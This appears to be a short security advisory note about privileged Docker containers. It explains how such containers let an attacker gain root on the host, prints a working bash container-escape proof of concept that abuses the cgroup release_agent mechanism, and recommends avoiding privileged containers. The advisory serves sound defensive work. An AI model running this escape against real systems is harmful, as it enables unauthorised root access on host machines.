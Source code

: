 # Privileged Docker Container

## Issue
Any docker container running as privileged has sufficient privledges to execute commands as root on the host operating system via:

1. Mounting the host root partition
2. Directly executing processes outside of the container namespace

## Example

The following POC is modified from https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/
```bash
  d="$(dirname $(ls -x /s*/fs/c*/*/r* | head -n1))"
  mkdir -p $d/w
  echo 1 >$d/w/notify_on_release
  t="$(sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab)"
  touch /o
  echo $t/c >$d/release_agent
  printf "#!/bin/sh\n%s > %s/o" "$cmd" "$t">/c
  chmod +x /c
  sh -c "echo 0 >$d/w/cgroup.procs"
  sleep 1
  cat /o

  # Tidy up
  rm /c /o
```

## Fix
The solution is to avoid using privileged containers when possible.

## Resources
- [understanding-docker-container-escapes](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/)
- [exploit-db](https://www.exploit-db.com/exploits/47147)


